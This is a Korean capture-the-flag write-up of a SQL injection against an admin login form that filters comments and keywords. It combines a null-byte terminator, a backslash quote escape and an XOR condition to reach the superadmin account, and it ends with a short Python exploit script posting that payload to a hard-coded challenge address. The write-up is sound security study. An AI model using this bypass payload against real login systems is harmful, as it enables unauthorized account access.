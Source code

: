 여러 특수문자와 키워드들을 필터링하고 있다. `superadmin` 계정에 로그인하기 위해 `init.sql`을 살펴보았다.   

```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(80) NOT NULL,
    password VARCHAR(120) NOT NULL,
    create_time TIMESTAMP DEFAULT CURRENT_TIMESTAMP
) ENGINE = InnoDB
  DEFAULT CHARSET = utf8mb4
  COLLATE = utf8mb4_general_ci;
  /*!40101 SET character_set_client = @saved_cs_client */;

INSERT INTO users (username, password) VALUES ('admin', '**redact**');
INSERT INTO users (username, password) VALUES ('superadmin', '**redact**');

CREATE USER IF NOT EXISTS 'guest'@'%' IDENTIFIED BY 'guest';

GRANT SELECT,INSERT ON user_db.* TO 'guest'@'%';

FLUSH PRIVILEGES;
```        
`admin`, `superadmin` 두 계정이 존재함을 알 수 있었고, 이후 SQL Injection을 시도했다.    
    
가장 먼저 했던 부분은 주석을 사용할 수 없기 때문에 이를 우회할 방법을 찾았다.    

https://github.com/payloadbox/sql-injection-payload-list    

위 사이트에서 `;%00` 를 통해 쿼리 뒤에 부분을 날릴 수 있음을 알게 되었다.   

```python
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''='';\x00'") # => O
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''=''\x00'")  # => X
cur.execute(f"SELECT * FROM users WHERE username='admin' AND password=''='';'")     # => X
```                     
실제로 수행되는지 확인하기 위해 로컬환경을 구축하였다. 세미콜론(;)에 의해 뒤에 부분이 무시되는건지 테스트 해봤는데 `;`과 `\x00`를 함께 사용해야만 뒤에 부분이 무시되는 것을 확인할 수 있었다.        
     
이후, 삽질 좀 하며 연산 종류에 대해 찾아보다가 `XOR (^)`를 찾게 되었고, `^();\x00` 형태에서 변조해가며 SQL Injection을 시도했다.         
     
<img src="/assets/images/ctf/2024/whitehat/KETC-admin-main/injection.png" width=700px>     

도커에서 확인해보니 `()` 안에 값에 따라 결과가 달라는 것을 확인했다.      
       
이후, `username`에 `\\`을 넣어 username에 `'`를 single quote로 인식하게 만들어 `username`이 `\' AND password=`가 되도록 했다. `password`는 `^((id)like'1');\x00`를 넣어 id가 1인 row 가져와 XOR하여 전체 조회가 될 때 id가 1이 아닌 row 값들을 가져오도록 했다. 그래서, id가 2인 `superadmin` 계정에 로그인하여 플래그를 얻을 수 있었다.      
     
### Exploit Code    
```python
import requests 

url = "http://3.35.238.142:10000/"

r = requests.post(
    f"{url}/admin/", 
    data={
        "user": "\\",
        "pass": "^((id)like'1');\x00"
    },
)

print(r.text)
```     